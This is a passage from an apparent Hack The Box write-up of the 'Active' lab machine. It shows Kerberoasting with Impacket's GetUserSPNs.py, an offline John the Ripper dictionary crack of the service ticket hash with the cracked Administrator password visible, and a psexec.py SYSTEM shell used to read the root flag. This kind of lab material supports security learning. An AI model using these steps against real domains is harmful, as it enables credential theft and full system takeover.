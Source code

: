 Kerberoasting is a technique in which an attacker obtains an encrypted TGS ticket encrypted with a service account's NTLM hash.

AD account lockouts are avoided by extracting the hash and cracking it offline.

![image](https://user-images.githubusercontent.com/85040841/156118064-a864379d-af3e-4ef2-891f-d6aeb4f066d2.png)

I’ll use `GetUserSPNs.py` from the Impacket library to obtain a list of service usernames that are associated with standard user accounts and a ticket.

![Untitled 4](https://user-images.githubusercontent.com/85040841/155660318-3487cf12-2b67-49a5-98cf-31d1fa009f75.png)

Inside of `outputGUSPNS` is a hash that I can crack with either Hashcat or John the Ripper.

We got the Administrator user's hash!

![Untitled 5](https://user-images.githubusercontent.com/85040841/155660327-82844210-adcf-4d50-bd4c-4cf3d27880bf.png)

Let’s use John the Ripper and the rockyou.txt wordlist to perform a dictionary attack against it.

```ruby
┌──(kali㉿kali)-[~/htb/machines/active]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs outputGUSPNS 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:04 DONE (2022-02-25 00:03) 0.2336g/s 2462Kp/s 2462Kc/s 2462KC/s Tiffani1432..Thomas31121979
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the password for the Administrator user, we can easily use `psexec.py`, another Impacket script, to spawn a shell as NT AUTHORITY\SYSTEM.

![psexec](https://user-images.githubusercontent.com/85040841/155660339-7f1ad6f2-6e34-46bf-8df2-e45cda7bf3c5.gif)

# Root Flag

```ruby
C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> type root.txt
09f2************************f97d
```
